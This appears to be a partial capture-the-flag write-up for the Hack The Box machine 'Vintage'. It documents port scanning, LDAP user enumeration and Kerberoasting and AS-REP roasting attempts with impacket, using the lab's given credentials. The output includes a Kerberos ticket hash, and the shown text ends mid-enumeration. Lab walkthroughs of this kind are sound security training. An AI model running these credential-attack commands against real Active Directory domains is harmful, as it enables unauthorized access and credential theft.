










Vintage
Introduction
Vintage is a hard-rated Windows box that focuses on Active Directory exploitation and privilege escalation misconfigurations. The machine starts with limited credentials and requires careful enumeration to uncover ACL misconfigurations, gMSA abuse, and password reuse scenarios. While the box doesn’t rely on exotic techniques, it provides a great hands-on experience with common AD attack paths like Kerberoasting, AS-REP roasting, and Resource-Based Constrained Delegation (RBCD).
Recon
Initial Port Scan
As usual, we start with a port scan:
b4go@parrot-~/HTB/vintage $ nmap -sCV -p- --open -oA vintage 10.10.11.45 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-23 16:25 CEST
Nmap scan report for 10.10.11.45
Host is up (0.051s latency).
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-04-23 14:27:46Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49664/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49690/tcp open msrpc Microsoft Windows RPC
52978/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2025-04-23T14:28:40
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.71 secondsLet's add vintage.htb and dc01.vintage.htb to our hosts file.
b4go@parrot-~/HTB/vintage $ cat /etc/hosts
# Host addresses
127.0.0.1 localhost
127.0.1.1 parrot
10.10.11.45 vintage.htb dc01.vintage.htb
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
# OthersService Enumeration
Starting with SMB enumeration using smbmap and nxc, but the authentication attempts failed.
SMB Enumeration
b4go@parrot-~/HTB/vintage $ smbmap -H 10.10.11.45 -u P.Rosa -p Rosaisbest123
[!] Authentication error on 10.10.11.45
b4go@parrot-~/HTB/vintage $ nxc smb 10.10.11.45 -u P.Rosa -p Rosaisbest123 --shares
SMB 10.10.11.45 445 10.10.11.45 [*] x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB 10.10.11.45 445 10.10.11.45 [-] 10.10.11.45\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
Evil-WinRM
It is not working either
b4go@parrot-~/HTB/vintage $ evil-winrm -i 10.10.11.45 -u P.Rosa -p Rosaisbest123
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type ArgumentError happened, message is unknown type: 2061232681
Error: Exiting with code 1
RPC Enumeration
RPC client connection also fails
b4go@parrot-~/HTB/vintage $ rpcclient -U "vintage.htb/P.Rosa%Rosaisbest123" 10.10.11.45
Cannot connect to server. Error was NT_STATUS_NOT_SUPPORTED
LDAP
b4go@parrot-~/HTB/vintage $ nxc ldap 10.10.11.45 -u P.Rosa -p Rosaisbest123
LDAP 10.10.11.45 389 dc01.vintage.htb [*] x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP 10.10.11.45 389 dc01.vintage.htb [-] vintage.htb\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
b4go@parrot-~/HTB/vintage $ ldapdomaindump ldap://vintage.htb -u 'P.Rosa@vintage.htb' -p 'Rosaisbest123'
[!] Username must include a domain, use: DOMAIN\username
still nothing
b4go@parrot-~/HTB/vintage $ ldapsearch -H ldap://10.10.11.45 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts
#
#
dn:
namingcontexts: DC=vintage,DC=htb
namingcontexts: CN=Configuration,DC=vintage,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=vintage,DC=htb
namingcontexts: DC=DomainDnsZones,DC=vintage,DC=htb
namingcontexts: DC=ForestDnsZones,DC=vintage,DC=htb
# search result
search: 2
result: 0 Success
# numResponses: 2
# numEntries: 1
LDAP query was executed properly, Let's keep trying with queries.
b4go@parrot-~/HTB/vintage $ ldapsearch -H ldap://vintage.htb -D 'P.Rosa@vintage.htb' -w 'Rosaisbest123' -b 'dc=vintage,dc=htb'
# extended LDIF
#
# LDAPv3
# base with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# vintage.htb
dn: DC=vintage,DC=htb
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=vintage,DC=htb
instanceType: 5
whenCreated: 20240605102652.0Z
whenChanged: 20250423145425.0Z
subRefs: DC=ForestDnsZones,DC=vintage,DC=htb
subRefs: DC=DomainDnsZones,DC=vintage,DC=htb
subRefs: CN=Configuration,DC=vintage,DC=htb
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAA6FVGDkxjzk21oLNTUmYhYQ==
...
What I believe is happening is that the domain controller blocks NTLM authentication (likely due to LDAP signing policies) and requires Kerberos or signed connections. Tools like nxc, ldapdomaindump, smbmap, rpcclient, and evil-winrm fail because they rely on NTLM.
However, ldapsearch works since it uses a simple bind with user@domain (UPN) over TCP/389, which is still allowed.
User Enumeration via LDAPSearch
Performed an LDAP query to enumerate domain users using the sAMAccountName attribute:
(bloodhound-env) b4go@parrot-~/ldapsearch-ad $ ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -W -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: DC01$
sAMAccountName: krbtgt
sAMAccountName: gMSA01$
sAMAccountName: FS01$
sAMAccountName: M.Rossi
sAMAccountName: R.Verdi
sAMAccountName: L.Bianchi
sAMAccountName: G.Viola
sAMAccountName: C.Neri
sAMAccountName: P.Rosa
sAMAccountName: svc_sql
sAMAccountName: svc_ldap
sAMAccountName: svc_ark
sAMAccountName: C.Neri_adm
sAMAccountName: L.Bianchi_adm
This enumeration confirms several standard users, admin accounts, and service accounts present in the domain.
Vulnerability Assessment
Kerberoasting Attempt (SPN Enumeration)
Checking for Service Principal Names (SPNs) using GetUserSPNs.py, but none of the users had SPNs registered:
b4go@parrot-~/HTB/vintage $ impacket-GetUserSPNs -dc-ip 10.10.11.45 vintage.htb/P.Rosa:Rosaisbest123 -usersfile users -request
Impacket v0.11.0 - Copyright 2023 Fortra
[-] Principal: administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$VINTAGE.HTB$*krbtgt*$91458c43b241b74215a98417$68480324eff0eae5e6ed1afb94404c45d0ff0d15f0ec755cea642673edb57b4bdc51f79154e280e28f5ba6bb3ba28f0176668872caa1e239743f862d12e61b3e863811b69af4c080c91283a1f03638b7a20ee149fd0ad2890f0cec742c13e0837002e130bf812a561dec99fad82a84a697b722d6fc0b8c1112337366877b039bbf6496b8463c50107122448fd4cb113cba65dc56f6fd9c17a078e4904f8466df6608270f2e897d7662c14edc740048c2371e5714fe8d9484d192a3311cb40dea4fafc5543dd01ee38aabfc5ec7857b79e277b219fe58c6176b2fb76ef5a21eeedbd961841c25b90f038345a12a900d0b0bc62f5a158de33a14f92fb0f66a354119ebbaabc84f0b2083f61a5aa432f96153ffec50b766f42948cc640a4dc92ba257ad9aebecd30ca23c3149dac0c1ce316b7590eade595eb458df6f8f6f3c42deef997d3c23a5ff1a373441553faf537c7cd30f1133162ab30b50a90b117e9f5ce7175733a0aca9ae3c11bc4c9120baa5977dfdf4e1b4edae91e3894109f01f7a672149334583d8056dbe35facff0898f58c6b785b4db48359f37fa6260762d5527de0b4bc397f00b7be8b56565dc3296bf46b768eb3a3a94a330ad95939d27aa5285ebb3096268e8cbfedbb285a82465d4f98524bbff12cf878697c6322979f13fa0bf2e494904510e49b0cdbd77fb8367d1b8fb3a5c7e9d85ca5f0c592f45e5d4ec7b423a56f79073c33732738866ab38cc9b0c216a91b41ed011558755fc417c2f4c0de1d58f356148a66f53dae38bff9e390bedfa2d8a1bad33883bff6283a4bc3f3c0e03b1ec1cd213eb9131e75647781505641df270b48bf47d8731aa9d4fb777159b6309876ea61b9485d92b3414706899d3241f484220a5096006b33a3497fb125ecbd81ecf0ecdc845fa380544303bf51df39442ce44a1770abd96abafa6c563d4c621e2701fcd0769fe050f8ba792d271ec705646404c344aee57dbda3aa2c6c5996a623cdc22aee4392c1dc56e9611fad7c48655fa6e93247138389d7cdca53c582bbab5821046c47563c06079ec1c0de2a7230d48d71e356163577a02d195c63fad0fef6e1abcdb4b027ce0a20fee80390664caa479a1ee69f207d9e3384095f148beee3ba0c9344c3821832dcd48add93089186c7664864324b9c5c61758951609c9d10115f4af94516318c35116277c73fc5978733979afe9d64db6ea1febd8a7a140f0e6f3a0d50e57a56e3689f5bc6b733f96c50e5991a07a6f9a7768736ef96e9c04293c4b85046658e0f6f8310cbb299138b8badbc55496fa5cdca98eb216c6c83a1bd70f17f003b6de22fc8d781d7259ebd420988a3f08ae0464665297eec94739ca4c3742b1902ea1e5b9bf249aa5107a8f8895b5cda003b0e2d9210c9184e73f9bbd8a315d757309d46b5a6593adf4db03dde9014970cd04
[-] Principal: M.Rossi - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: R.Verdi - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: L.Bianchi - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: G.Viola - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: C.Neri - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: P.Rosa - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: svc_sql - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: svc_ldap - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: svc_ark - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: C.Neri_adm - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: L.Bianchi_adm - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
so... Kerberoasting is not an option here.
AS-REP Roasting (No Pre-Auth Check)
Next, I tried to enumerate accounts without pre-authentication (UF_DONT_REQUIRE_PREAUTH), using GetNPUsers.py, but no luck here either:
b4go@parrot-~/HTB/vintage $ impacket-GetNPUsers vintage.htb/ -usersfile users -no-pass -dc-ip 10.10.11.45
Impacket v0.11.0 - Copyright 2023 Fortra
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
